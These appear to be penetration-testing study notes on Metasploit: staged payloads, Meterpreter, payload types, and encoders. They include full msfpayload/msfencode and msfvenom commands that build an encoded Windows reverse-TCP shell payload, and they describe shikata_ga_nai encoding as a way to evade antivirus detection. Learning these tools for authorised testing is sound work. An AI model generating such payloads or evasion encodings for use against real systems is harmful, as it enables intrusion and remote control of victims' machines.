 #### Staged Payloads
* Simply put an exploitation process
* **Stage 0**
  * represents initial shell-code sent over the network to target service
  * Sole purpose is to initialize a connection back to attacker (reverse connection)
    * Less likely to trigger prevention systems
  * Common names `reverse_tcp`, `reverse_https`, and `bind_tcp`

#### Meterpreter Payload
* Specific type of multi-faceted payload that uses `DLL Injection` to ensure stable connection
* Hard to detect by simple checks, persistent across reboots or system changes
* Resides completely in the memory, no traces on hard drive
* Scrips and plugins can be `loaded and unloaded` dynamically as required  

#### Searching for payloads
* Use the `show payloads` keyword in `msfconsole`
* Make use of `grep` inside `msfconsole` to filter specific items

#### Set Payloads
* Use the `set payload <no.>` keyword
* `LHOST` and `LPORT`, our local IP and Port for the reverse connection
* `RHOST` and `RPORT`, IP and Port of the victim
* Use the `options` keyword to show more options

#### MSF - Meterpreter Commands
* Use the `shell` keyword in a `meterpreter` session to spawn a CLI of the target host
* Use the `help` keyword to show all Commands

#### Payload Types
* **generic/custom**	Generic listener, multi-use
* **generic/shell_bind_tcp**	Generic listener, multi-use, normal shell, TCP connection binding
* **generic/shell_reverse_tcp**	Generic listener, multi-use, normal shell, reverse TCP connection
* **windows/x64/exec**	Executes an arbitrary command (Windows x64)
* **windows/x64/messagebox**	Spawns a dialog via MessageBox using a customizable title, text & icon
* **windows/x64/shell_reverse_tcp**	Normal shell, single payload, reverse TCP connection
* **windows/x64/shell/reverse_tcp**	Normal shell, stager + stage, reverse TCP connection
* **windows/x64/shell/bind_ipv6_tcp**	Normal shell, stager + stage, IPv6 Bind TCP stager
* **windows/x64/meterpreter/$**	Meterpreter payload + varieties above
* **windows/x64/powershell/$**	Interactive PowerShell sessions + varieties above
* **windows/x64/vncinject/$**	VNC Server (Reflective Injection) + varieties above
* Other heavily used types **Empire** and **Cobalt Strike**

### Encoders
* Change Payloads so they run on differs OS's
  * `x64`, `x86`, `sparc`, `ppc`, `mips`
* Remove bad characters from payloads
* Encodings can sometimes help to evade AV detection
* `Shikata Ga Nai (SGN)` one of the most used schemes
  * Hard to detect the Payloads

#### Selecting an Encoder
* Use the `show encoders` keyword to show encoders for an existing payload
* Old fashion way (before 2015)
  * `msfpayload` and `msfencode` located in `/usr/share/framework2/`
  * Create custom payload trough `msfpayload` and pipe it (`|`) to encoding `msfencode `
    * `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`
* Newer method (after 2015)
  * updates combined `msfpayload` and `msfencode` to `msfvenom`
    * `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`
